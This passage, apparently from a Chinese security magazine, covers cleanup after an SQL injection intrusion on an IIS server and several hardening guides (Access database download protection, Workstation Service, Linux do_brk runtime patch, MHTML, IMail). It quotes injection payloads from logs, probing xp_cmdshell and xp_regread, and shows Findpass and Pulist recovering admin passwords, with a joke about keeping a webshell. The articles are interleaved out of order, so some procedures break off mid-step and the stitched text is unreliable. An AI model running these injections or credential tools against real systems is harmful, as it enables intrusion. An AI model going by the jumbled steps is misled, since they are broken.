http://www.***.com/preview/default.asp?DocNo=107 and 1=(select top 1 Email from ManageDB.dbo.inputtable)
```

在这里开始从表里查询字段的邮件地址值。然后开始往系统方面发展：`create table [dbo].[system1]([temp][char](255));--`、`DECLARE @result varchar(255) EXEC master.dbo.xp_regread ...`、`and 1=(select temp from system1);--`。这几句的目的应该就是得到 Web 绝对路径。

“Select count(*) from master.dbo.sysobjects where name='xp_cmdshell'”、 “select count(*) from master.dbo.sysobjects where name='xp_regread'”。上面这两句中，第一句是为了判断 xp_cmdshell 扩展存储过程是否存在；第二句判断读取注册表的扩展存储过程是否存在。

按照上面列出的常用的注入语句，大家可以在分析日志的时候判定是否遭受了 SQL 注入。

> 刘流：如果是常规注入，采用 2004 年第 X 期上的《跨库查询》，直接暴出数据库中的内容是比较好的办法。不用原始地址猜解一个个表。另外，使用“select @@version”可以得到版本信息，“select system_user”得到系统当前用户，“select host_name()”得到机器名，这些都是最基本的信息捕获。

通过上面对日志的分析，很明显可以断定，入侵者一定是通过 SQL 进来的。这下可有活干了，恐怕下面的工作更为复杂。

同时，通过上面的分析，我们看出入侵者可以进行跨库查询，由此可以断定本地数据库中的访问权限没有严格控制，很有可能使用的是 SA 账户。针对这个情况，我们可以提出这样的解决方案：每个业务数据库使用独立用户，仅允许访问本库，不允许访问其他数据库（包括 Master、Model、Tempdb、Msdb 及示例库等），以有效控制跨库查询。

另外，对于一些非常危险的扩展存储过程，我们必须痛下狠手，要么删除，要么将其对应的动态链接库改名。

通过上面的一些工作，是不是能避免 SQL 注入？那是不可能的。这不是解决问题的根本办法。根本办法是从应用层修复：对 URL 输入进行过滤、严格类型判断，修补 ASP 代码中所有薄弱点。

但是，这个服务器上的数据量太大（约 300GB），ASP 页面众多，全面修改可能需要数月时间，所以对紧急问题并不是最佳方法。

既然不能在短期内将漏洞全部堵上，为了避免这段时间继续遭受入侵，建议启用 UrlScan 和 IISLock 工具；并对 URL 输入的特殊字符进行过滤，还可以使用入侵检测软件（如 Snort）来监测这类攻击。

如果黑客们通过上面的方法得到了一些可以登录 Web 远程管理系统的用户名和密码，那么对于黑客来说，下面的工作非常简单……□，登录进去，找到上传文件的位置，把后缀攻击要使用的工具传上来即可。

还是对每个数据库用户的数据库操作权限做出严格的限制。一般来说，这样的用户具有 Select 权限基本上够用了，所以完全可以将如 Update 和 Delete 等操作去掉，这样就可以保证不被攻击者从 URL 中修改或者删除数据。另外，对于用户建表和删除表的权限也要做出严格地限制，这样才能够从最高处解决一些安全问题。

### 清理系统后门程序

接下来，我们就该来看看系统有没有被上传文件的可能了。这里，最常被黑客利用的就是 Web 的远程管理入口。通过查看，我找到了这个服务器为各个网站提供的管理入口，一看吓了我一跳，它的这个管理系统的功能就是为人们提供文件上传。呵呵，威胁处处都在！不过，对于这种情况，我们还是有办法解决，那就是对文件上传的目录进行严格的访问控制。这里我们就要充分利用 Windows 2000 以后版本提供的 NTFS 的安全功能。NTFS 将所有文件默认情况下对所有人（Everyone）设为完全控制权限，这使黑客有可能使用一般用户身份对文件做增加、删除、执行等操作，建议对一般用户只给予读取权限，而只给管理员和 System 以完全控制权限，但这样做有可能使某些正常的脚本程序不能执行，或者某些需要写的操作不能完成，这时需要对这些文件所在的文件夹权限进行更改，建议在做更改前先在测试机器上做测试，然后慎重更改。这里，我将上传目录的访问权限设置为 Everyone 组的只读和写入，将所有的其他用户的访问权限删除，这样就可以保证任何人都不能在这个目录下执行程序，如图1所示。

在解决了上传目录限制执行的问题以后，面临的就是目前系统已经被攻击者攻击过，怎样在 300GB 的数据中定位出已经上传的网页木马。我在对现有的网页木马进行分析以后，找出了现有网页木马的大体文件长度，然后搜出所有 *.ASP 和 *.ASPX 的文件，搜的时候可以限制一下最后修改时间，从时间和长度上进行限定，这样就可以排除一些不可能是木马的文件，以减少怀疑目标。这种限定搜索对于 Windows 2000 以后的操作系统来说，确实是非常容易实现的，如图2所示。这里，我限定了文件的大小为大于 15KB，时间为一个月的时间。


图1


图2

通过这个思路，我将所有上传目录设置为了不可执行，这样即使攻击者能够上传文件，如网页木马，也不能够被执行，安全性也就大大提高。虽然攻击者没有办法通过网页木马或者执行 XP_cmdshell 来得到机器的 Shell，但如果你的 Web 仍然可以注入，你的数据库中的数据可就不安全了，它可以任意更改你的数据，所以，如果你的 Web 服务不能够在短期内解决注入问题，最好……

当然在实际操作中，可以根据实际情况，充分发挥你的想像力，设定合适的限定值。这里需要提醒一下读者，我所限定的 15KB 并不是最合适的，我手上就有一个 2KB 的网页木马，这是经过了手工修改过的，所以在实际操作时，还是要注意观察。尤其在搜索时，如果发现带有字符“O”的 ASP 文件就要格外注意，因为攻击者为了迷惑我们，经常用数字 0 来代替字母“O”以达到迷惑我们的作用。另外，如果你的机器上的相同名字的 ASP 文件比较多，可以专门关注一下陌生名字的 ASP 文件，或者看到名字相同，但是文件大小有明显区别的，就要注意了。通过这种搜索，在服务器上搜出了 5 个海阳顶端木马红粉佳人版，呵呵，看来这位哥们（当然也有可能是 MM 黑客，反正不管那么多了，既然是同道人，就先叫哥们了）对红粉佳人情有独钟。下面的工作还用我说吗，干掉！不过，如果你还没有红粉佳人木马的话，留一个自己用也无妨，哈哈。

木马找出来了，终于松了半口气，呵呵，还有一大口气没有出来，那就是我们的工作还远远没有结束。“革命尚未成功，同志仍须努力”。既然木马都已经上传，我们就要怀疑机器上应该已经被上传了某些黑客常用的工具，来找找看。

我首先按照上面的方法对时间和文件大小做出限定进行搜索，当然，一般的黑客工具不会很大，我怀疑攻击者肯定会上传类似 Cca.exe、Findpass.exe、Pulist.exe、3389.exe 这样的常用程序。通过搜索，果然不出我所料，找到了 Cca.exe、Findpass.exe 和 Pulist.exe。虽然攻击者把名字改了，但是这几个文件的大小我还是能够分辨出来，嘿嘿，不要以为你穿上了马甲我就不认识你，小样儿的！删掉！

可以看出，攻击者之所以上传了 Pulist.exe 和 Findpass.exe，目的就是为了找出管理员的密码，然后通过管理员密码使用 Cca.exe 克隆某些账户。在不能确定管理员账户和密码是否泄露的情况下，我们直接用 Cca.exe 来找找被克隆了的账户吧。这里，为了能够让读者对找 Windows 2000 管理员密码有一个宏观的认识，我还是简单演示一下。为了能够使用 Findpass.exe 找出管理员密码，首先要使用 Pulist.exe 找出 Winlogon.exe 的 PID，这个如图3所示。


图3

在得到了 Winlogon.exe 的 PID 以后，再使用 Findpass.exe 找出 Windows 2000 的密码，如图4所示。


图4

呵呵，怎么感觉有点像教大家去入侵，不过，这对于你从原理上来解决类似的问题还是很有用处的。现在还有一个问题，Cca.exe 的用法中要知道用户的密码，才能够知道账户是否被克隆过。这也好办，我第一个怀疑的就是那个被禁止使用的 Guest，先把 Guest 密码改掉，然后使用 Cca.exe 对 Guest 进行查看，结果显示 Guest 用户已经是管理员的权限了，上次登录时间就发生在昨天凌晨，呵呵，早点来就抓到你了！

再来看看其他的账户吧，如 USR_HOSTNAME 和 IWAM_HOSTNAME，结果发现 USR_HOSTNAME 也被克隆过了，真狠！再把其他的用户搜索一遍，没有发现被克隆的现象，现在要做的就是将 USR_HOSTNAME 和 IWAM_HOSTNAME 删除，然后把所有其他被克隆过的用户的密码更改掉。有人可能会问，那对于 Guest 用户本身不能删除，即使更改了密码也不还是管理员权限？呵呵，你说对了，目前我还没有更好的解决办法，如果那位有更好的办法，请不吝赐教。另外的 USR_HOSTNAME 和 IWAM_HOSTNAME 用户在下一次用户访问 Web 服务的时候会自动重新创建，所以就没有必要手动创建了。关于 Cca.exe 的用法可以参见图5。


图5

到这，似乎工作也做得差不多了，不过，别忘了系统还打开了终端服务，本身需要远程管理，所以不能关掉，那就只有做限定，让它只允许 Administrator 一个用户访问。另外要把管理员的密码设得足够长和复杂，我在克隆用户的时候发现，当使用 Ca 进行克隆的时候，如果管理员的密码很长（40位字符以上），Ca 就不能正常工作，这可能与 Ca 提供的用户密码缓冲区的长度有关。看来榕哥有必要将这个软件重写了。这么看来，使用 Windows 2000 的用户就不用担心攻击者在通过某种手段得到 Shell 以后，利用 Findpass.exe 软件从内存中读出 Administrator 的密码了。即使读出了密码，按照目前 Ca 的这个缺陷，恐怕也不能够克隆管理员账户，是不是又少了一个担心，多了一种安慰呢！

为了让我们的终端服务更安全，我们最好还是在“本地安全策略”中的“安全选项”设置一下，启用这些设置就够了，即：登录屏幕上不要显示上次登录的用户名，重命名系统管理员，然后在“用户权利指派”中，设置更改系统时间、关闭系统的权力只允许 Administrator 进行，其他人一概不允许。

### 宏观安全设置

上面只是做了很简单的设置，我们还需要对服务器进行严格的权限设定。

必须对操作系统所在的分区进行严格的访问控制，除了 Administrator 之外，对其他的用户一概不允许访问，尤其像 IIS 的日志文件，“`%systemroot%\logfiles`”下的文件必须进行严格控制，最好能够文件夹重定位，以避免日志被黑客清除。当然，其他的分区也必须进行严格的访问控制，尤其像 Guest 权限的用户，更应该控制其权力为只读，坚决禁止写入和执行的权力，以避免黑客通过其他的方法得到 Shell 以后对服务器进行删除文件的恶意操作，避免造成不必要的损失。

还有一个工作，也要仔细做一下，那就是观察一下本机的进程、服务、端口是否有陌生的，如果有，那就要严格检查一遍，避免入侵者在计算机上安装了木马程序。还要注意操作系统所在的分区，不要放置数据库文件和 Web 文件，对于数据库文件和 Web 文件最好也分别放在不同的分区上，以利于做严格的访问控制。操作系统安全方面，除了上面已经提到过的，我还提出了另外一些策略。

### 1. 账号策略

- 账号尽可能少，且尽可能少用来登录。网站账号一般只用来做系统维护，多余的账号一个也不要，因为多一个账号就会多一份被攻破的危险。
- 除 Administrator 外，有必要再增加一个属于管理员组的账号。两个管理员组的账号一方面防止管理员一旦忘记口令还有另一个备用账号；另一方面，一旦黑客攻破一个账号并更改口令，我们还有机会重新在短期内取得控制权。
- 所有账号权限需严格控制，轻易不要给账号以特殊权限。
- 将 Administrator 重命名，改为一个不易猜的名字。其他一般账号也应遵循这一原则，这样可以为黑客攻击增加一层障碍。
- 将 Guest 账号禁用，同时重命名为一个复杂的名字，增加口令，并将它从 Guest 组删掉。有的黑客工具正是利用了 Guest 的弱点将账号从一般用户提升到管理员组。
- 给所有用户账号一个复杂的口令（系统账号除外），长度最少在 8 位以上，且必须同时包含字母、数字、特殊字符。不要使用大家熟悉的单词（如 Microsoft）、熟悉的键盘顺序（如 QWERTY）、熟悉的数字（如 2000）等。口令是黑客攻击的重点，口令一旦被突破也就无任何系统安全可言。
- 口令必须定期更改（建议至少两周改一次），并最好记在心里，除此以外不要在任何地方做记录。
- 在账号属性中设立锁定次数，比如账号失败登录次数超过 5 次即锁定该账号。这样可以防止某些大规模的登录尝试，同时也使管理员对该账号提高警惕。

### 2. 删除所有的网络共享资源

NT 与 Windows 2000 在默认情况下有不少网络共享资源，在局域网内对网络管理和网络通讯有用，在网站服务器上同样是一个特大的安全隐患（卸载“Microsoft 网络的文件和打印机共享”。当查看“网络和拨号连接”中的任何连接属性时，将显示该选项。单击“卸载”按钮删除该组件；清除“Microsoft 网络的文件和打印机共享”复选框将不起作用）。

- NT：管理工具 -> 服务器管理器 -> 共享目录 -> 停止共享；Windows 2000：控制面板 -> 管理工具 -> 计算机管理 -> 共享文件夹 -> 停止共享。
- 修改注册表。运行 Regedit，然后修改注册表，在 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\LanmanServer\Parameters` 下增加一个键：
  - Name: `AutoShareServer`
  - Type: `REG_DWORD`
  - Value: `0`  
  重启后磁盘分区共享去掉，但 IPC 共享仍存在，需每次重启后手工删除。

### 3. 系统启动的等待时间设置为 0 秒

按照控制面板 -> 系统 -> 启动/关闭 的步骤，将列表显示的默认值“30”改为“0”（或者在 `boot.ini` 里将 `TimeOut` 的值改为 0）。

### 4. 只开放必要的端口

除必要端口外，关闭其余端口。缺省情况下，所有端口对外开放，黑客就会利用扫描工具扫描哪些端口可以利用，这对安全是一个严重威胁。

### 5. 加强日志审核

日志包括事件查看器中的应用、系统、安全日志，IIS 中的 WWW、SMTP、FTP 日志，SQL Server 日志等，从中可以看出某些攻击迹象，因此每天查看日志是保证系统安全的必不可少的环节。安全日志缺省是不记录，账号审核可以从“域用户管理器 -> 规则 -> 审核”中选择指标；NTFS 中文件的审核从资源管理器中选取。注意只需选取你真正关心的指标，若全选则记录数目太大，反而不利于分析，并且选取太多对系统资源也是一种浪费。

### 6. 加强数据备份

这一点非常重要。站点的核心是数据，数据一旦遭到破坏后果不堪设想，而这往往是黑客们真正关心的东西。遗憾的是，不少网管在这一点上做得并不好，不是备份不完全，就是备份不及时。数据备份需要仔细计划，制定出一个策略并做了测试以后才实施，而且随着网站的更新，备份计划也需要不断地调整。

### 7. 只保留 TCP/IP 协议

删除 NETBEUI、IPX/SPX 协议，只保留 TCP/IP 协议。网站需要的通讯协议只有 TCP/IP，而 NETBEUI 是一个只能用于局域网的协议，IPX/SPX 是面临淘汰的协议，放在网站上没有任何用处，反而会被某些黑客工具利用。

### 8. 停掉没有用的服务

只保留与网站有关的服务和服务器某些必须的服务。有些服务，比如 RAS 服务、Spooler 服务等，会给黑客带来可乘之机，如果确实没有用处建议对其禁止掉，同时也能节约一些系统资源。但要注意有些服务是操作系统必须的服务，建议在停掉前先查阅帮助文档并首先在测试服务器上做一下测试。

对于 ASP 程序的安全性，我给出了如下建议：

- 验证的 ASP 页面，可跟踪上一个页面的文件名，只有从上一页面转进来的会话才能读取这个页面。现在需要经过验证的 ASP 程序多是在页面头部加一个判断语句，但这还不够，有可能被黑客绕过验证直接进入，因此有必要跟踪上一个页面。
- `.inc` 文件泄露问题。当存在 ASP 的主页正在制作并没有进行最后调试完成以前，可以被某些搜索引擎机动追加为搜索对象。如果这时候有人利用搜索引擎对这些网页进行查找，会得到有关文件的定位，并能在浏览器中察看到数据库地点和结构的细节，揭示完整的源代码。程序员应该在网页发布前对其进行彻底的调试；安全专家需要固定 ASP 包含文件以便外部用户不能看见它们。首先对 inc 文件内容进行加密，其次也可以使用 ASP 文件代替 inc 文件使用户无法从浏览器直接观看文件的源代码。inc 文件的文件名不用使用系统默认的或者有特殊含义容易被用户猜测到的，尽量使用无规则的英文字母。
- 用户名与口令的程序最好封装在服务器端，尽量少在 ASP 文件里出现。涉及到与数据库连接用户名与口令应给予最小的权限。用户名与口令往往是黑客们最感兴趣的东西，如果被通过某种方式看到源代码，后果是严重的。因此要尽量减少它们在 ASP 文件中的出现次数，出现次数多的用户名与口令可以写在一个位置比较隐蔽的包含文件中。如果涉及到与数据库连接，理想状态下只给它以执行存储过程的权限，千万不要直接给予该用户以修改、插入、删除记录的权限。
- 注意某些 ASP 编辑器会自动备份 ASP 文件，会有被下载的漏洞。有些编辑 ASP 程序的工具，当创建或者修改一个 ASP 文件时，编辑器自动创建一个备份文件，比如 UltraEdit 就会备份一个 `.bak` 文件，如你创建或者修改了 `test.ASP`，编辑器自动生成一个叫 `test.ASP.bak` 的文件，如果你没有删除这个 `.bak` 文件，攻击者可以直接下载 `test.ASP.bak` 文件，这样 `test.ASP` 的源程序就会被下载。
- 在处理类似留言板、BBS 等输入框的 ASP 程序中，最好屏蔽掉 HTML、JavaScript、VBScript 语句，如无特殊要求，可以限定只允许输入字母与数字，屏蔽掉特殊字符。同时对输入字符的长度进行限制。而且不但在客户端进行输入合法性检查，同时要在服务器端程序中进行类似检查。输入框是黑客利用的一个目标，他们可以通过输入脚本语言等对用户客户端造成损坏；如果该输入框涉及到数据查询，他们会利用特殊查询输入得到更多的数据库数据，甚至是表的全部。因此必须对输入框进行过滤。但如果为了提高效率仅在客户端进行输入合法性检查，仍有可能被绕过，因此必须在服务器端再做一次检查。

对于数据库管理系统 SQL Server 我给出了以下解决方案：

### 1. 给 SA 一个复杂的口令

SA 具有对 SQL Server 数据库操作的全部权限。遗憾的是，一部分网管对数据库并不熟悉，建立数据库的工作由编程人员完成，而这部分人员往往只注重编写 SQL 语句本身，对 SQL Server 数据库的管理不熟悉，这样很有可能造成 SA 口令为空。这对数据库安全是一个严重威胁。目前具有这种隐患的站点不在少数。

### 2. 严格控制数据库用户的权限

轻易不要让用户对表有直接的查询、更改、插入、删除权限，可以通过给用户以访问视图的权限，以及只具有执行存储过程的权限。用户如果对表有直接的操作权限，就会存在数据被破坏的危险。

### 3. 制订完整的数据库备份与恢复策略

### 4. 及时更新补丁程序

与 NT 一样，SQL Server 的许多漏洞会由补丁程序来弥补。建议在安装补丁程序之前先在测试机器上做测试，同时提前做好目标服务器的数据备份。

最后一定要记住，将防毒软件和防火墙软件打开。同时，作为网管，要经常浏览安全站点，关注漏洞，随时更新系统的补丁。这是笔者从自己的平时经验中总结出来，然后又在实际工作中检验了一下的，确实有效，在此贡献给大家，希望战友们能够喜欢。

| 难度等级 | 中 |
|---|---|
| 前置知识 | IIS、Windows 2000 Server 使用经验 |

## 安全配置 IIS 防止数据库下载

脚本小子：以前黑客防线曾刊登过防止 Access 数据库被下载的文章。近日偶遇 Net.PK，和他谈起防止 Access 数据库被非法下载的问题，他说其实这算是 Windows 系统的一种固有漏洞，正好他刚研究出一个方法来防止这样的漏洞，其实就是通过配置 IIS 来达到目的，采用的防范手段却和以前刊登的很不一样，仔细听了他的述说，觉得立意很巧妙，于是就请他撰写了本文以飨广大网管，使他们早日摆脱网站 Access 数据库被非法下载的困扰。

文／Net.PK

现在很多网站都是因为数据库源地址被黑客通过某些手段得到，导致数据库文件被下载，而被入侵者取得了控制权！偶然间想到了一个安全配置 IIS 使数据库防下载的办法，经过配置后，就算黑客得到了数据库的位置和数据库的文件名，也没法通过任何软件下载到你的数据库文件，从而使服务器的数据库处于安全地带。是不是很爽？其实很简单，只要你为数据库的文件设置一个重定向的 URL 就行了。以下介绍的方法是我认为最安全的防数据库下载的方法。

举一个例子来说明吧。假设我现在要搞一个网站，域名为 netpk.com，使用 ASP + Access 数据库交互式动态主页，数据库文件没有加密。只要黑客下载了数据库就能得到网站 admin 的控制权，网站首页文件名为 index.asp。

在没开始之前，我们先对一般网站防数据库的最原始方面进行一下介绍。怎样防止 mdb 数据库被下载一直是用 Access 的程序员的一大头疼。现在常用的有效方法有如下几种。

> 只要数据库文件名任何地方含有“#”号，别人都无法正常下载。同理，空格号也可以起到“#”号作用，但必须是文件名中间出现空格。

- 修改数据库名。这是常用方法，将数据库名改成怪异名字或长名字，以防别人猜测。一旦被人猜到，别人还是能下载数据库文件，但几率不大。比如将数据库 `database.mdb` 改成 `k2c7d9s3^&ij3f.mdb` 等。
- 修改数据库后缀。一般改成 `database.asp`、`database.asa`、`database.inc`、`database.cgi`、`database.dll` 等，注意要在 IIS 中设置这些后缀的文件不能被解析。
- 将数据库 `database.mdb` 改成 `#database.mdb`。这是最简单有效的办法。
- 将数据库连接文件放到其他虚拟目录下。
- 将 Access 数据库加密。

分析：假设别人得到你的数据库地址串是：`http://www.yourserver.com/yourfolder/#database.mdb`，但实际上他得到的是：`http://www.yourserver.com/yourfolder/`。因为 # 在这里起到间断符的作用，地址串遇到 # 号，自动认为访问地址串结束。注意，不要设置目录可访问。用这种方法，不管别人用何种工具都无法下载，如 flashget、网络蚂蚁等。

以上我们只是列出了常用之法，为了增加保险性，可以几种方法同时使用。

数据库文件的地址一般都在 conn.asp 的文件里。假设我们的数据库名为 netpk.mdb，数据库文件在根目录 net 的文件夹下，我们只要把 conn.asp 的文件设置下文件重定向 URL 就行了。我们先设置 conn.asp 这个文件重定向 URL，打开 Internet 服务管理器，然后选择我们的站点 netpk.com，在 netpk.com 的站点里找到 conn.asp 文件，点击鼠标右键会出现一个菜单，选择属性选项，会出现一个窗口，如图1所示。然后我们选择“重定向到 URL”选项，


图1

在重定向到的白色输入框里设置你要重定向到的地址，这里我们输入 `http://netpk.com`，如果别人访问你这个文件，那么他的访问即被转向到了 `http://netpk.com` 的首页了，就像我们常使用的转向域名原理一样。

## 防范 Workstation Service 远程溢出漏洞

文／图 独行者

关于 Windows Workstation Service 远程溢出漏洞的原理和利用，我们已经在《Windows Workstation Service 远程溢出漏洞攻击实战》一文中作了详细叙述，读者看了之后，是不是觉得脊梁发凉？赶快采取一些有效措施补上这个漏洞吧！

### 防范方法一

使用防火墙过滤 UDP 138、139、445 端口和 TCP 138、139、445 端口。这里我们以“江民反黑王”为例，其他防火墙也可以采取同样的设置。首先打开防火墙的控制面板，选择“规则设置”（图1）。再选择“增加规则”，在弹出的页面中进行如下配置：规则名称中取任意名称，“网络条件”下选择“接收数据包”时启用规则，“对方 IP 地址”选择“任意地址”，“本地 IP 地址”可以根据实际情况设定，也可不填。“TCP”端口下“本地端口”中添加 138、139、445 三个端口，“UDP”中添加 138、139、445 三个端口，再设定当所有条件满足时系统“拦截”，并做“报警”和“记录”。这样，一个防范 Workstation Service 远程溢出的防火墙规则设定就做好了（图2）。


图1


图2

### 防范方法二

破釜沉舟的办法是停止 Workstation 服务（图3）。不过要注意，禁用此服务将导致很多依赖它的服务失效，因为网络上的计算机必须激活这个功能才能访问共享的文件服务器或打印机。如果停止了这个服务，将会出现不能访问共享资源、不能使用拨号、xDSL、Cable modem 连接等问题！具体取舍看大家自己的立场了。


图3

### 防范方法三

微软也已经推出了安全补丁以修补这个漏洞，用户可以选择并安装针对你所用系统的安全补丁。

然后我们再设置根目录下 netpk 文件夹里的 netpk.mdb 的文件重定向就行了。步骤和刚才的一样，只是重复设置了一次，很简单吧？通过上面的安全配置，你的动态网站一样可以正常使用，但是黑客却没法下载你的数据库了。如果黑客知道了你的数据库位置，那么黑客用那些下载工具下载你的数据库文件 netpk.mdb 时，黑客下载下来的只是 http://netpk.com 的首页文件，不能下载数据库文件，因为数据库已经被设置了重定向，所有指向这个数据库的文件地址的连接都会被重定向连接到 http://netpk.com 的首页文件里。

你现在可以放心地把你的数据库地址告诉别人了，看看还有没有人能正常下载你的数据库，呵呵！本人认为这是最安全的防 Access 数据库的下载方法。

> 编后：看毕本文，我按作者提到的方法对自己的 IIS 进行了配置，发现确实有效，相信此种方法对 IIS 管理员会有所帮助的。

---

| 适合对象 | 程序员，骨灰级老鸟 |
|---|---|
| 前置知识 | Linux 内存管理，C 语言 |

## 抵抗 Linux kernel do_brk() 参数边界检查不充分漏洞

编者按：brk 漏洞在 2003 年 9 月份就被 Linux 内核开发人员与一些安全人员发现，但是内核开发人员却忽略了该漏洞的危害性，使广大 Linux 管理员根本没有察觉该漏洞，致使该漏洞在攻击者对 Debian 与 Gentoo 的攻击行动中扮演了重要角色。关于该漏洞的详细描述信息请参阅本期“攻册”的另一篇漏洞分析文章。因为对该漏洞的攻击代码已经大规模公开，所以严重地影响到了 Linux 系统的安全性。在严峻的情况下你的系统打补丁了吗？你做好防护了吗？没有的话，赶紧看看本文吧！

文 / [启明星辰防御实验室]

brk 漏洞是一个危害非常严重的本地漏洞，因为这种漏洞是一种新型漏洞，可以绕过缓冲区溢出的补丁和一些内核安全增强补丁，导致攻击者只要可以拿到任何本地用户的访问权限，就可以在 2.4.23 内核以下的 Linux 系统上取得管理员权限。所以说最好的防御就是不让攻击者拿到任何可以访问本地系统的权限，但是这是最理想的情况。如果我们必须要为用户提供一些本地访问权限，或者系统上用户很多，很有可能被攻击者获得一个本地账号，所以给系统打补丁是非常必要的。接下来我们从多个方面来讨论 3 种针对该漏洞的修补方案，希望读者可以从下面的方案中找到适合自己的方案。

> **总结**：最根本的解决方案，如果没有兼容性与管理问题的话，这个应该是解决这个漏洞的最佳方案。

### 第一种方案

最根本的方法就是直接升级内核到 2.4.23，这样可以修补这个 brk 漏洞。可以在 www.kernel.org 下载 2.4.23 的完整源代码，或者直接下载 2.4.23 的补丁包（http://www.kernel.org/pub/linux/kernel/v2.4/patch-2.4.23.bz2）。虽然这种方法看上去好像很简单，其实管理员还是需要考虑到很多因素，比如兼容性问题，因为内核改动后，内核中的一些数据结构被改变，一些特定的硬件驱动就会不兼容。还有升级新的内核后要考虑到一些应用是否还能正常运行。还有一些情况是如果这样升级内核，就需要重新编译并配置内核，然后需要重新启动机器以便以新的内核引导系统，这样就使得这种方案对管理员带来了更多的麻烦。

### 第二种方案

这种方案可以避免一些兼容性问题，就是 patch 原来内核中有漏洞的源代码。从代码方面来看，要修补该漏洞其实很简单，只需在 mmap.c 中的 do_brk() 里加入几行对参数判断的语句，检查参数是否为正常值，如果不是则返回一个 -EINVAL：

```c
if ((addr + len) > TASK_SIZE || (addr + len) < addr) {
    /* 检查是否超过了 TASK_SIZE 的边界或者 len 值是否为负数 */
    printk("caught do_brk exploit!!\n");
    return -EINVAL;
}
```

这种直接修改内核源代码的方案使当前服务器上运行的应用或者服务器硬件没有了兼容性的麻烦，不过还是要重新编译配置内核并重新启动机器以便使用新的内核，所以并没有减轻管理上的麻烦。

> **总结**：该方案因为是在原有内核基础上修补有漏洞的代码，这样就能修补漏洞而没有兼容性的麻烦。如果用户害怕兼容性方面的问题可以选择该方案。

### 第三种方案

这种方案的目标是为了达到“on the fly”的效果，就是在不重新启动服务器的情况下动态地给系统打补丁。其实就是使用一些 LKM 的技术寻找所有 do_brk 的调用（call 或者 jump），并把有漏洞的 do_brk 地址替换为我们自己修补过的 my_brk。在 my_brk() 中首先判断输入参数是否正确，如果正确则调用原来的 do_brk()。

```c
unsigned long my_brk(unsigned long addr, unsigned long len)
{
    len = PAGE_ALIGN(len);
    if (!len) return addr;
    if ((addr + len) > TASK_SIZE || (addr + len) < addr) {
        printk("caught do_brk exploit!\n");
        return -EINVAL;
    }
    return do_brk(addr, len);
}
```

上面这几句就是我们新的 do_brk() 函数 my_brk()，下面让我们简单看看这个补丁是怎么寻找内核中所有调用 do_brk 的地方并把它替换的：

```c
ptr = (unsigned char *)(do_brk);    /* 首先获得 do_brk 的地址 */
newptr = (unsigned char *)(my_brk); /* my_brk 的地址 */
for (cptr = start; cptr < end; cptr++) {
    if (*cptr == 0xe8 || *cptr == 0xe9) {
        cptr++;
        lptr = (long *)cptr;
        cptr += 4;
        if ((cptr + *lptr) == (ptr)) {
            printk("fixing:0x%08lx\n", lptr);
            *lptr = (newptr - cptr);
        }
    }
}
```

> **总结**：该方案“on the fly”的动态内核补丁不需要重新加载新内核，也不需要重新编译旧内核，只需要把补丁模块 insmod 到内核中就行（该模块只允许在杂志相关栏目中使用）。虽然这个方法有诸多好处，但也有一些问题需要注意，如模块可能影响系统稳定性并可能降低系统运行速度。

### 后记

以上就是我们从兼容性、升级维护和系统稳定性等多个方面探讨的几种方案。希望读者从中能学习到给 Linux 系统打补丁的一些知识，使大家能清楚系统补丁是怎么修补系统的，这样以后就可以提高系统整体的安全性。

---

### MHTML 文件重定向漏洞
### 防范策略

文／图 风清扬

到目前为止，这个漏洞还没有合适的补丁程序。其中的一个漏洞是一个跨站点脚本安全隐患，可以导致来自于某一安全域（如因特网）的脚本以另一域（如“我的电脑”）的安全权限执行。同时，已经证实 IE 6 中存在这个安全漏洞，早期 IE 版本浏览器也可能存在这个问题。

- 不去登录未知的站点，尤其是域名具有诱惑性的站点。
- 为了减小危害，建议关闭 Internet Explorer 浏览器中的相关功能。

另外，MHTML 文件重定向并执行漏洞在 Outlook Express 中更容易被利用，可以在不打开邮件的情况下自动下载并执行网络上的恶意程序。建议对 Outlook Express 做如下设置：

- 选取“工具”菜单中的“选项”（图4）。
- 点击“安全”标签，将“选择要使用的 Internet Explorer 安全区域”设置为“受限站点区域（较安全）”。
- 最后点击“确定”完成设置。

以上方法只是临时解决这些漏洞的危害，最根本的方法还是要微软官方公布最新的漏洞补丁。带的 Windows Update 功能下载最新的补丁。补丁下载地址如下：

- Windows 2000: http://www.microsoft.com/downloads/details.aspx?familyid=2467FE46-D167-479C-9638-D4D79483F261&displaylang=en
- Windows XP: http://www.microsoft.com/downloads/details.aspx?familyid=F02DA309-4B0A-4438-A0B9-5B67414C3833&displaylang=en

编后：人无完人，程序亦如此。但只要不是致命的程序设计缺陷，总是有办法修补的。虽然 Windows 的 Bug 何其多，但是它的主人 Microsoft 还是很认真很负责的，只要我们密切注意微软的安全公告，及时打上补丁，还是能够在凶险的数字海洋中安然渡过的。

---

| 难度等级 | 中级 |
|---|---|
| 前置知识 | Windows 2000 的 IPSEC 使用经验；软件防火墙使用经验 |

脚本小子：《上册》刊登了《被人遗忘的漏洞》，详细给我们演示了如何利用 Imail 的漏洞取得 System 权限的过程。由于使用 Imail 作为邮件服务器的用户群较大，所以尽管这个 Imail 漏洞不算新，但是其带来的安全危害是极其巨大的。由于 Imail 不是免费的邮件服务器软件，这就使得有一些用户由于资金的原因无法升级 Imail 系统，或者不愿意升级、打补丁，那么我们又该如何防御这个 Imail 漏洞带来的潜在安全风险呢？请看——

## IMAIL 漏洞防御

文／图 -273℃ [HBU]

Ipswitch IMail 是基于 Web 的邮件服务程序，包含 LDAP 支持 IMail 的目录访问。当攻击者使用简单认证模式来通过服务器验证时，需要提供“bind DN”和密码；如果提供超长参数给“bind DN”并发送的情况下，可导致服务器出现缓冲溢出，存在以 SYSTEM 权限执行任意代码的可能。我们已经在《被人遗忘的漏洞》详细叙述了该漏洞的利用方法，现在讲述如何防御这个 IMail 漏洞。

这个漏洞的防御其实简单，最彻底的解决方法就是升级你的 IMail 系统。如果实在不愿升级，那么临时解决的办法也是有的。办法总结起来无非就那么两条：用防火墙和使用 Windows 2000 的 IPSEC。下面我们来看看怎么实施。

### 第一种方法

用防火墙将 8383 端口屏蔽掉。到这时候应该看到了，这个漏洞成功利用的关键条件是对方的 8383 端口得开放，因此我们可以利用防火墙将 8383 端口给屏蔽掉。

大家看《上册》的 ACTIVE 脚本。以下为关闭 ACTIVE 脚本的操作方法：

- 点击 Internet Explorer 浏览器“工具”菜单的“选项”（图1）。
- 选取“安全”标签（图2）。
- 点击“默认级别”按钮，确认 IE 设置安全级为“中级”及以上（图3）。
- 点击“确定”完成设置。


图1


图2


图3


图4

### 第二种方法

